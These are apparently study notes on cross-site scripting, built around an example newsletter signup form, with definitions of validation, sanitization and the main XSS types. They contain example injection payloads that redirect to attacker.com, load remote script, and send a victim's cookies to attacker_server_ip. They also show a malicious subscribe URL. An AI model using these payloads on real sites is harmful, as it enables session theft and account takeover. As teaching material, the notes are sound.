```
<h1>Welcome to my site.</h1>
<h3>This is a cybersecurity newsletter that focuses on bug bounty news and write-ups. Please subscribe to my newsletter below to receive new cybersecurity articles in your email inbox.</h3>
<form action="/subscribe" method="post">
  <label for="email">Email:</label><br>
  <input type="text" id="email" value="Please enter your email.">
  <br><br>
  <input type="submit" value="Submit">
</form>
```

- The confirmation HTML looks like this:

```
<p>Thanks! You have subscribed <b>user@gmail.com</b> to the newsletter.</p>
```

- If the user were to submit `<script>location="http://attacker.com;</script>` into the email field, and the website doesn't validate or sanitize the user input, their source code would become, `<p>Thanks! You have submitted <b><script>location="http://attacker.com";</script></b> to the newsletter.</p>`
- Validating user input: The application checks that the user input meets a certain standard - like not containing malicious code or follows some sort of structural guide.
- Sanitizing user input: The application modifies special characters in the input that can be use to interfere with HTML logic before processing.
- The `src` attribute of the HTML <script> tag allows you to load JavaScript from an external source.
  - `<script src=http://attacker.com/xss.js></script>` will execute the contents of http://attacker.com/xss.js in the victim's browser.
  - This is not very useful, because the attacker can only redirect themselves to the attack website.
- If the website allows users to subscribe to the service by visiting a URL like "https://subscribe.example.com?email=SUBSCRIBER_EMAIL" to automatically subscribe after visiting the URL, the attacker can inject the script by tricking users into visiting a malicious URL like, `https://subscribe.example.com?email=<script>location="http://attacker.com";</script>`
  - The malicious script get incorporated into the page and the victim's browser will think the script is part of that site.
  - The injected script can then access any resources that the browser stores for that site (cookies, session tokens, etc.).
  - This can be used to steal user information that can then be used to bypass access controls.
- To steal cookies by making the victim's broswer send a request to the attacker's IP with the victim's cookie as a URL parameter, you could use something like the following:
  `<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>`
  - This script contains JavaScript to load an image from the attacker's server with the user's cookies as part of the request.
- XSS can be used to execute actions on the victim's behalf, modify the webpage the victim is viewing, read the victim's sensitive information (CSRF tokens, credit card numbers, and any other details rendered on their page)

#### Types of XSS

Stored XSS (Includes Blind XSS), Reflected XSS, DOM-based XSS.
